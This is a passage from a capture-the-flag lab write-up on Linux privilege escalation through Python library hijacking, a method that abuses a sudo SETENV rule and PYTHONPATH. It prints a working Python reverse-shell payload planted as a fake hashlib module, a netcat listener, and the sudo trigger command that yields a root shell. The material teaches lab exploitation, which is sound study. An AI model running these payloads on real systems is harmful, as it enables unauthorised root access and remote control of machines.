hazel@ip-10-112-175-21:~$ sudo -l

Matching Defaults entries for hazel on ip-10-112-175-21:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on ip-10-112-175-21:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py
```

The output listed `(root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py` as something hazel could run via sudo. At this point, neither the significance of the `SETENV` tag nor the fact that `/usr/bin/python3 /home/hazel/hasher.py` was one single permitted command, rather than `python3` in general, was understood; I had misread; that only became clear later.

### Investigating hasher.py

```shell
hazel@ip-10-112-175-21:~$ cat hasher.py 

import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

The script's only external dependency is `import hashlib` — the standard library module, not a file under `hazel`'s control. At this point its relevance wasn't obvious.

### Attempting the Standard GTFOBins Technique

Checked GTFOBins for `python`.



```shell
hazel@ip-10-112-175-21:~$ sudo python3 -c 'import os; os.execl("/bin/sh", "sh")'

[sudo] password for hazel: 
Sorry, user hazel is not allowed to execute '/usr/bin/python3 -c import os; os.execl("/bin/sh", "sh")' as root on ip-10-112-175-21.eu-central-1.compute.internal.
```

**Breakdown:**

- `sudo` attempts to run the command as root
- `python3` invokes the Python 3 interpreter
- `-c 'import os; os.execl("/bin/sh", "sh")'` runs the given code inline rather than from a script file; the code imports `os` and replaces the current process image with `/bin/sh`

This failed, with sudo reporting that hazel wasn't allowed to execute `python3 -c import os; os.execl("/bin/sh", "sh")` as root. The standard GTFOBins shell-escape didn't work, though the reason wasn't clear at the time — the `sudo -l` line was still being read as permitting `python3` generally, not as one fixed command.

### Researching SETENV and Python Library Hijacking

Searched for how `SETENV` specifically can be abused for privilege escalation.



This pointed towards Python library hijacking: abusing `PYTHONPATH` to make a privileged script import an attacker-controlled module instead of the real one.



Read further on the mechanism at a blog post ([Isha Sangpal, "Linux Privilege Escalation: Python Library Hijacking", Medium](https://medium.com/@betigetin/linux-privilege-escalation-python-library-hijacking-f5030d50ddcd)), which explains that when Python resolves an `import`, it searches the directories in `sys.path` in order and loads the first matching filename it finds. Python checks the current working directory first, then `PYTHONPATH` entries, then the standard library and site-packages directories.

Rereading the earlier `sudo -l` output after this, it became clear here at this moment in time that `/usr/bin/python3 /home/hazel/hasher.py` was one single permitted command, not `python3` on its own — which explained why the GTFOBins shell-escape had been refused.





Given `hasher.py`'s only dependency is `import hashlib`, and `hazel`'s sudo rule allows setting `PYTHONPATH`, this matched the third condition exactly: `sudo` allows `SETENV`, so `PYTHONPATH` can be pointed at a directory `hazel` controls, and that directory can hold a malicious `hashlib.py`.

### Exploiting the Hijack

Confirmed the search order on the target itself:

```shell
hazel@ip-10-112-175-21:~$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

**Breakdown:**

- `python3` invokes the Python 3 interpreter
- `-c '...'` runs the given code inline
- `import sys` loads Python's `sys` module, which exposes the interpreter's module search path
- `print("\n".join(sys.path))` joins each entry of `sys.path` with a newline and prints it

Located the real `hashlib` module to confirm what was being hijacked:

```shell
hazel@ip-10-112-175-21:~$ find / -type f -name *hashlib* 2>/dev/null

—SNIP—
/usr/lib/python3.8/hashlib.py
```

**Breakdown:**

- `find /` starts the search from the filesystem root
- `-type f` restricts matches to regular files
- `-name *hashlib*` matches any filename containing "hashlib"
- `2>/dev/null` discards error output

The real module `hashlib.py` that `hasher.py` imports is `/usr/lib/python3.8/hashlib.py`.

Tried placing a malicious `hashlib.py` directly in `hazel`'s home directory first:

```shell
hazel@ip-10-112-175-21:~$ echo test > test.py

-bash: test.py: Permission denied
```

**Breakdown:**

- `echo test` outputs the literal text "test"
- `> test.py` redirects that output into a new file `test.py`, overwriting it if it exists

`hazel`'s home directory itself isn't writable by `hazel`, so this part of the plan had to move to a directory she can write to. `/tmp` was world-writable and, since `SETENV` is permitted, `PYTHONPATH` can simply point there instead.

Wrote a reverse-shell payload into `/tmp/hashlib.py`, adapted from a Python TCP reverse shell one-liner (from [InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python)), with the IP changed to the attacking machine:

```shell
hazel@ip-10-112-175-21:/tmp$ nano hashlib.py
hazel@ip-10-112-175-21:/tmp$ cat hashlib.py

import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("—REDACTED—",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

**Breakdown:**

- `import socket,os,pty` loads the three modules the payload needs: `socket` for the network connection, `os` for redirecting file descriptors, and `pty` for spawning a pseudo-terminal
- `s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)` creates a TCP socket
- `s.connect(("—REDACTED—",4242))` connects that socket to the attacking machine's IP and port
- `os.dup2(s.fileno(),0)`, `os.dup2(s.fileno(),1)`, `os.dup2(s.fileno(),2)` redirect standard input, output and error (file descriptors 0, 1 and 2) onto the socket, so everything typed and printed travels over the connection
- `pty.spawn("/bin/sh")` starts an interactive shell attached to those redirected descriptors

Started a listener on the attacking machine:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4242

listening on [any] 4242 ..
```

**Breakdown:**

- `nc` invokes netcat
- `-l` puts netcat into listen mode
- `-v` enables verbose output
- `-n` skips DNS resolution, using numeric addresses only
- `-p 4242` sets the local listening port

Triggered the hijack:

```shell
hazel@ip-10-112-175-21:/tmp$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 ~/hasher.py
```

**Breakdown:**

- `sudo` runs the command as root, matching the permitted sudoers entry exactly
- `PYTHONPATH=/tmp/` sets an environment variable Python checks when resolving imports, placing `/tmp` ahead of the standard library in the search order; because the sudoers entry has `SETENV` enabled, sudo passes this variable through to the root-run process instead of stripping it
- `/usr/bin/python3` is the interpreter sudo is permitted to run
- `~/hasher.py` is the script being executed; its `import hashlib` now resolves to `/tmp/hashlib.py` ahead of the real standard-library module, running the reverse-shell payload as root

The listener caught the connection:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4242

listening on [any] 4242 ...
connect to [—REDACTED—] from (UNKNOWN) [10.112.175.21] 43732
# pwd
pwd
/tmp
# whoami
whoami
root
```

```shell
# find / -type f -name root.txt 2>/dev/null
find / -type f -name root.txt 2>/dev/null

/root/root.txt
# cat /root/root.txt
cat /root/root.txt

—REDACTED—
```

### Question 2 — What is the root flag?

**Answer:** `—REDACTED—`